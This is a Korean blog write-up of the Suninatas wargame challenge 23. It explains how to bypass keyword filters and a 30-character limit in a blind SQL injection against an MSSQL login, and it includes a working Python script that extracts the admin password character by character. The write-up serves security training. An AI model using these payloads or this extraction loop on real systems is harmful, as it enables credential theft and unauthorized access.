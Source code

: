 ```yaml
---
title: "Suninatas 23 Write up"
categories: SQLi
tags: [blindSQLi, wargame, suninatas]
---
```


Suninatas 23 Write-Up
---------------------

## 문제 분석

이번 문제의 경우 이전 22번 문제에서 변형된 문제로 admin이라는 단어가 필터링에 추가됨과 동시에
substring과 같이 blind SQL Injection에 있어서 중요한 keyword들이 필터링 되었습니다.

![Suninatas_23_Main](https://raw.githubusercontent.com/Jun-Project-LAB/Jun-Project-LAB.github.io/main/_image/suninatas_23_main.png)

문제의 풀이 조건의 경우 이전 문제와 동일하였습니다. 이번 문제의 핵심은 admin 문자와 substring과 같은
 keyword를 대체할 방법을 찾는 것이었습니다.

* * *

## 문자열 우회

먼저 admin 문자열을 우회하는 방법에 대하여 찾아보았습니다. 우회 방법을 찾을 때 0x나 chr과 같은 keyword의 경우 필터링 되어 있기 때문에 ascii code와 같은 방식은 제외하고 찾아보았습니다.

가장 먼저 시도해본 방법은 concat 함수를 이용한 방법이었습니다. concat 함수의 경우 문자열을 합칠 수 있는 함수로 mysql에서 사용 가능한 함수이나 결과값을 얻을 수 없었습니다. 이후에 풀이를 보고 알았지만 문제 시스템이 mssql로 구성되어 있었다고 합니다.

다음으로 시도하였던 방법은 +를 이용한 우회였습니다. 이는 mssql에서 사용 가능한 우회였으나 이를 사용하여 시도하였음에도 실패한 이유를 분석한 결과 쿼리를 시도할 때 url에 직접 입력하였는데 이 과정에서 + 문자가 url encoding에서 공백을 의미하는 +로 사용되어 발생한 문제로 판단되었습니다. login form에서 시도하였을 때는 정상적으로 동작하는 것을 확인할 수 있었습니다.

* * *

## substring 우회

admin을 우회하는 것에 성공하였기에 다음으로는 substring을 대체할 방법이 필요하였습니다. substring을 
대체할 수 있는 방법으로 left와 right 함수를 이용한 방법이 있단 것을 알 수 있었으나 풀이를 통해 알게 
된 사실은 Query가 30자가 넘게 될 경우 SQL Injection으로 판단하여 차단된다는 것이었습니다.

따라서 30자가 넘지 않도록 Query문을 구성할 필요가 있었기에 제약 사항이 많았습니다. 결과적으로 
left 함수로 받아온 문자열을 right 함수를 이용하여 가장 맨 끝 글자를 가져와 비교하는 식으로 코드를 작성하게 되었습니다.

``` python
#!/usr/bin/python

import requests as req

url = "http://suninatas.com/challenge/web23/web23.asp"
cookies = { "ASP.NET_SessionId":"xn25l4eqiwhk1zdpvf54polm" }
maxpw = 15
pwlen = 0
pw = ""
params = { "pw":"SQLi" }

for a in range(1, maxpw+1):
    params["id"] = "adm'+'in' and len(pw)={}--".format(a)
    response = req.get(url, cookies = cookies, params = params)
    if response.text.find("<font size=4 color=blue>admin</font>") != -1:
            print("Password Length is {}".format(a))
            pwlen = a
            break

for i in range(32, 128):
    params["id"] = "adm'+'in' and left(pw,1)='{}'--".format(chr(i))
    response = req.get(url, cookies = cookies, params = params)
    if response.text.find("<font size=4 color=blue>admin</font>") != -1:
        pw = chr(i)
        break

for i in range(1, pwlen+1):
    for j in range(32, 128):
        params["id"] = "'or right(left(pw,{}),1)='{}'--".format(i, chr(j))
        response = req.get(url, cookies = cookies, params = params)
        print("admin password is {}{}".format(pw, chr(j)), end='\r')
        if response.text.find("<font size=4 color=blue>admin</font>") != -1:
            if i == 1:
                continue
            pw += chr(j)
            break
        
print("admin password is {}".format(pw))
```
